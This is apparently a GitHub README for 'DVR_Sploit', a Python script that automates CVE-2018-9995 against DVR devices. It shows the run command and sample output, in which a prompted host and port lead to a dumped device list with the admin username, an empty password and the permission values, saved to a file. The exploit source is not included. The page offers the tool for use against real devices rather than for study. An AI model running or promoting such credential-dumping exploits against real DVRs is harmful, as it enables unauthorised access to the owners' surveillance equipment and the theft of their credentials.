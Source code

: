 # DVR_Sploit
Simple python3 script to automate CVE-2018-9995

Requirements: requests (pip install requests)

Usage:
 ⚡ root@fuckmachine >> ~ > python3 dvrsploit.py            

    ___________    _________     ________       ______     __________ 
    ___  __ \_ |  / /__  __ \    __  ___/__________  /________(_)_  /_
    __  / / /_ | / /__  /_/ /    _____ \___  __ \_  /_  __ \_  /_  __/
    _  /_/ /__ |/ / _  _, _/     ____/ /__  /_/ /  / / /_/ /  / / /_  
    /_____/ _____/  /_/ |_|      /____/ _  .___//_/  \____//_/  \__/  
                                        /_/          By @mindfuckerrrr
Enter DVR host: 81.215.xxx.xxx
Enter DVR port: 88
Device list:
{"result":0,"list":[{"uid":"admin","pwd":"","role":2,"enmac":0,"mac":"00:00:00:00:00:00","playback":4294967295,"view":4294967295,"rview":4294967295,"ptz":4294967295,"backup":4294967295,"opt":4294967295}]}
Device list appended to dvr_output.txt
